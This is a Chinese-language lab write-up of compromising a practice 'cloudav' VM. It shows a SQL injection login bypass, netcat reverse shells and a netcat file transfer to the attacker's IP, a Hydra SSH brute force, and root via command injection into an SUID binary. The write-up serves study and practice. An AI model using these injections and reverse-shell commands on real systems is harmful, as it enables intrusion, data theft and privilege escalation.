 # <font color = "#749DD6">第二次打靶</font>

### <font color = "#749DD6">0x01 环境</font>

靶机: Linux cloudav 4.15.0-189-generic #200-Ubuntu SMP Wed Jun 22 19:53:37 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux

IP:192.158.1.13

攻击机: Linux kali 5.18.0-kali2-amd64 #1 SMP PREEMPT_DYNAMIC Debian 5.18.5-1kali1 (2022-06-20) x86_64 GNU/Linux 

IP:192.168.1.14

## <font color = "#749DD6">0x02 端口扫描</font>

<img src="./pictures/2-1.png">



## <font color = "#749DD6">0x03 破解登录页面 </font>

![2-7](pictures/2-7.png)

利用手工注入发现输入`"`时页面出现报错,那么就从这里入手

![2-7](pictures/2-8.png)

使用注入语句绕过登录机制

```
" or 1=1 or "
```

![2-9](pictures/2-9.png)
## <font color = "#749DD6">0x04 反弹Shell </font>

执行的命令

```
cat|nc 192.168.1.14 4444 | /bin/bash | nc 192.168.1.14 5555
```

![2-10](pictures/2-10.png)

![2-11](pictures/2-11.png)

反弹成功!

发现存在sql文件,查看一下

```
file database.sql
```

![2-12](pictures/2-12.png)

是一个SQLite3的数据库文件,利用nc下载到kali机器中.

```
nc 192.168.1.14 6666 -q 0 < database.sql
```

下载后导入到sqlite3中

```
.open database.sql   //打开数据库文件
.database    //查看加载的数据库文件
.dump    //显示数据库文件中的数据
```

![2-13](pictures/2-13.png)

接下来在反弹shell中查看可用于登录的账号

```
cat /etc/passwd | grep /bin/bash
```

![2-14](pictures/2-14.png)

发现存在三个可登录账号,接下来利用这三个账号和sql文件中的密码尝试进行爆破

![2-3](pictures/2-3.png)

## <font color = "#749DD6">0x05 Hydra 爆破ssh </font>

```
hydra -L user.txt -P passwd.txt ssh://192.168.1.13
```

![2-4](pictures/2-4.png)

结果不是很好,都不能登录,那么只能寻找其他的信息,结果发现有一个文件权限存在s,那么就可以利用它进行提权.

![2-5](pictures/2-5.png)

## <font color = "#749DD6">0x06 SUID 提权 </font>

首先执行这个文件发现报错,报错信息是个日志文件,先不用管他,大胆的尝试nc命令看能不能将root这个权限反弹过来

![2-5](pictures/2-5.png)

```
./update_cloudav "a | nc 192.168.1.14 8888 | /bin/bash | nc 192.168.1.14 9999"
```

![2-6](pictures/2-6.png)

发现提权成功.
